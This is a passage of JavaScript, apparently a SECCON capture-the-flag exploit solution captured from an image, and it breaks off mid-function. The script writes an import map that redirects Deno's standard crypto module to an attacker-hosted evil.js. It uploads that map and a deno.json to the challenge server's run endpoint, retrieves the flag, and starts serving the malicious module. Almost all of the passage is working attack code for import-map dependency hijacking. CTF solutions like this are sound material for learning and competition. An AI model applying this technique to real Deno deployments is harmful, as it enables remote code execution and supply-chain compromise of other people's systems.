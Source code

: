 ```javascript
const importMapJson = JSON.stringify({
  filename: "import_map",
  imports: {
    "https://deno.land/std@0.161.0/crypto/mod.ts": `${ATTACK_BASE_URL}/evil.js`,
  },
});

const denoJson = JSON.stringify({
  filename: "deno",
  importMap: "import_map.json",
});

const exploit = async () => {
  const path = await (
    await fetch(`${SECCON_BASE_URL}/`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        source,
      }),
    })
  ).text();

  await fetch(`${SECCON_BASE_URL}${path}/run`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      input: importMapJson,
    }),
  });

  await fetch(`${SECCON_BASE_URL}${path}/run`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      input: denoJson,
    }),
  });

  const flag = await (
    await fetch(`${SECCON_BASE_URL}${path}/run`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        input: "",
      }),
    })
  ).text();

  console.log(flag);
};

const start = async () => {
  const evilJs = fs.readFileSync("evil.js").toString();
  fastify.get("/evil.js", async (req, reply) => {
```